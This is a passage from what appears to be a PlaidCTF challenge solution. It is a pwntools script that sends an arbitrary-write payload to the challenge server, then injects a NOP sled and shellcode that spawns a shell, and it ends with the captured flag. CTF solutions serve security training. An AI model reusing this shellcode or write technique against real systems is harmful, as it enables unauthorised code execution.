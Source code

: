 ```python
    // Arbitrary write
    // Lam(7) = 2515077533 * 916807923
    // Executed as mem->node[1304007] = 4211158
    ((* 2515077533 916807923) 4211158)
)"""

s = remote("holmium.chal.pwni.ng", 1337)
s.recvuntil("-\n")
s.send("%d main.hvm\n" % len(exploit))

s.recvuntil("main.hvm\n")
s.send(exploit)
s.recvuntil("Running...")

s.send("\x90"*0x400 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
s.interactive()
```

`PCTF{b4by_h0lmium_d0wn_tight_wh3n_im_l0sing_my_m1nd_46bd197035aba40c}`
